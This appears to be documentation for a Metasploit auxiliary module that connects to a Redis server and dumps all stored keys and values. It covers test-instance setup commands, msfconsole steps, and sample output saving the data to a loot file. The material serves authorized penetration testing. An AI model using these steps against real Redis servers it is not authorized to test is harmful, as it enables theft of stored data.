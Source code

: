 ## Vulnerable Application

This module attaches to a Redis instance and extracts all stored keys and their associated data. If multiple databases are present the module will iterate through each.

This module works on Redis versions 2.8.0 and later, and has been tested on versions through 6.0.8.

To prepare a test instance of Redis,first install Redis v2.8.0 or greater. This can be done in docker with:

`docker run -d -p 6379:6379 --name redis redis`

Next, add some data to the database:

`echo 'set key1 value1' | nc 127.0.0.1 6379 > /dev/null` (MacOS, may differ on Linux)

Alternately, to run docker with a password:

```bash
docker run -d -p 6379:6379 --name redis redis --requirepass abcde
echo 'auth abcde \n set key2 value2' | nc 127.0.0.1 6379 > /dev/null
``` 


## Verification Steps

1. Install Redis and add data as described above.
1. Start `msfconsole`
1. Do: `use auxiliary/gather/redis_extractor`
1. Do: `set rhosts [ip.of.redis.app]` 
1. Do: `set PASSWORD [redis_password]` (optional)
1. Do: `check` (optional)
1. You will receive information about the Redis instalce.
1. Do: `run`
1. You will receive a screendump of the cached keys and contet.
1. A CSV file with keys and content will be saved in your loot directory.

## Options

### **PASSWORD**

The password for the redis instance. This value will be ignored for instances with no password required.

## Scenarios

### Check 

```
msf6 > use auxiliary/gather/redis_extractor
msf6 auxiliary(gather/redis_extractor) > set rhosts 172.22.12.168
rhosts => 172.22.12.168
msf6 auxiliary(gather/redis_extractor) > check

[+] 172.22.12.168:6379    - Connected to Redis version 6.0.8
[*] 172.22.12.168:6379    - OS is Linux 5.4.39-linuxkit x86_64
[*] 172.22.12.168:6379 - The target appears to be vulnerable.
msf6 auxiliary(gather/redis_extractor) >
```

### Run

```
msf6 > use auxiliary/gather/redis_extractor
msf6 auxiliary(gather/redis_extractor) > set rhosts 172.22.12.168
rhosts => 172.22.12.168
msf6 auxiliary(gather/redis_extractor) > run

[+] 172.22.12.168:6379    - Connected to Redis version 6.0.8
[*] 172.22.12.168:6379    - Extracting about 1 keys from database 0

Data from 172.22.12.168:6379    database 0
==========================================

 Key   Value
 ---   -----
 key1  value1

[+] 172.22.12.168:6379    - Redis data stored at /root/.msf4/loot/20201113203708_default_172.22.12.168_redis.dump_db0_836292.txt
[*] 172.22.12.168:6379    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(gather/redis_extractor) >
```
